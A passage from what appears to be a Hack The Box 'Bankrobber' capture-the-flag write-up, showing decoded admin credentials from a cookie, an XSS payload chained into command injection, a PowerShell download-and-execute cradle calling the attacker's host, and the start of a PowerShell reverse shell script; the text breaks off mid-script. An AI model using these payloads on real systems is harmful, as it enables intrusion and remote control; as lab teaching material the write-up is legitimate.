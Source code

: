 <p>Awesome we have the cookie - <i><b>username=YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==; id=1</b></i>. If we do a quick base64 on the username and password we get to <code>admin/Hopelessromantic</code>. Let's use our new found credentials and log in to the portal as admin now!</p>

<p>
<img src="{{ '/assets/htb-bankrobber/user-backdoorchecker.PNG' | relative_url }}">
</p>

<p>Great! Looks like this is the panel where pending requests would be reviewed by the admin, and there seems to be something else here... a backdoorchecker?! It mentions that the backdoorchecker can only run dir, so let's give it a try. Unfortunately, we're returned a disheartening message that this can only be run <i><b>from localhost (::1)</b></i>. We are going to need to be a little more creative with our approach. If we take a step back and see how backdoorchecker is being called we can add some ammunition to how we approach the payload arsenal.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/user-backdoorchecker2.PNG' | relative_url }}">
</p>

<p>Are you thinking what I'm thinking Pinky? We can chain together our previous XSS payload with a call to backdoorchecker, which should get executed on localhost by the admin account. Now just running dir won't actually give us anything beneficial, so let's try and combine dir with something a bit more tangible - a ping back to our machine. Let's start wireshark and modify the original XSS payload to.</p>

{% highlight shell %}
<script>callSys(dir | ping 10.10.14.23);</script>
{% endhighlight %}

<p>
<img src="{{ '/assets/htb-bankrobber/user-backdoorchecker3.PNG' | relative_url }}">
</p>

<p>Instead of waiting for the "real" admin to automatically approve it, let's go ahead and approve it ourselves. We then see our our callback did indeed work!</p>

<p>
<img src="{{ '/assets/htb-bankrobber/user-backdoorchecker4.PNG' | relative_url }}">
</p>

<p>Alright, where can we go from here. Instead of a ping let's see if we can call a reverse shell script. We host the file locally on our Apache instance and change the payload to the following:</p>

{% highlight shell %}
<script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.23:80/winrev2.ps1')");</script>
{% endhighlight %}

<p>With a reverse shell script as below:</p>

{% highlight python %}
root@kali:/var/www/html# cat winrev2.ps1 
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.23', 1337);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");